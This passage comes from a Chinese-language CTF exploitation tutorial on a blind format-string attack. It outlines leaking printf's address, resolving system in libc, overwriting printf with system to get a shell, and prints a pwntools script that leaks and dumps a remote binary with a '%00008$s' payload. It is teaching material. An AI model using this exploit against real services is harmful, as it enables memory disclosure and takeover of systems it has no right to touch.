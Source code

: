 可以基本确定的是 sub\_4004C0 为 read 函数，因为读入函数一共有三个参数的话，基本就是 read 了。此外，下面调用的 sub\_4004B0 应该就是输出函数了，再之后应该又调用了一个函数，此后又重新跳到读入函数处，那程序应该是一个 while 1 的循环，一直在执行。

#### 利用思路

分析完上面的之后，我们可以确定如下基本思路

- 泄露 printf 函数的地址，
- 获取对应 libc 以及 system 函数地址
- 修改 printf 地址为 system 函数地址
- 读入 /bin/sh; 以便于获取 shell

#### 利用程序

程序如下。

```python
##coding=utf8
import math
from pwn import *
from LibcSearcher import LibcSearcher
##context.log_level = 'debug'
context.arch = 'amd64'
ip = "127.0.0.1"
port = 9999


def leak(addr):
    # leak addr for three times
    num = 0
    while num < 3:
        try:
            print 'leak addr: ' + hex(addr)
            sh = remote(ip, port)
            payload = '%00008$s' + 'STARTEND' + p64(addr)
            # 说明有\n，出现新的一行
            if '\x0a' in payload:
                return None
            sh.sendline(payload)
            data = sh.recvuntil('STARTEND', drop=True)
            sh.close()
            return data
        except Exception:
            num += 1
            continue
    return None


def getbinary():
    addr = 0x400000
    f = open('binary', 'w')
    while addr < 0x401000:
        data = leak(addr)
        if data is None:
            f.write('\xff')
            addr += 1
        elif len(data) == 0:
            f.write('\x00')
            addr += 1
        else:
            f.write(data)
            addr += len(data)
    f.close()


##getbinary()
```